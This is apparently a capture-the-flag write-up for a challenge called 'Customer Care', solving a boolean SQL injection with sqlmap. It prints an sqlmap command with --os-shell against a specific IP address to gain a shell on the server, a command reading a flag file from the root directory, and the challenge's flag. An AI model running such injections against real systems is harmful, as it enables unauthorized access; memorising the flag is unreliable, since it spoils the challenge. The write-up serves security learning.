

# Customer Care
After several attempts, we realize that this site checks the existence of a series of data (perhaps username) in the database and shows it with true and false.



At the beginning, we can guess that this site has a SQLI vulnerability, and although we could do this manually, it is much easier to use a tool! **SQL MAP**
If you want to learn more about sqlmap, you can use this **[article](https://hackertarget.com/sqlmap-tutorial/)**.

According to the hint, this question seems that we should have shell access from this challenge and then look for a file. This command does this for us:

```

sqlmap -u "http://185.94.96.76:47561/index.php" --data "search=*" --dbms "mysql" --dbs --os-shell

```

Now that we were able to get the shell, it's time to go to root and look for the flag. for example, 'flag.txt' !

```

cat ../root/flag.txt

```

***Solved!*** For practice, it is good to do this manually (:

flag is: queraCTF{C@r1ng_ab0utS3cur1ty_iSCr33py_WGKNW23}

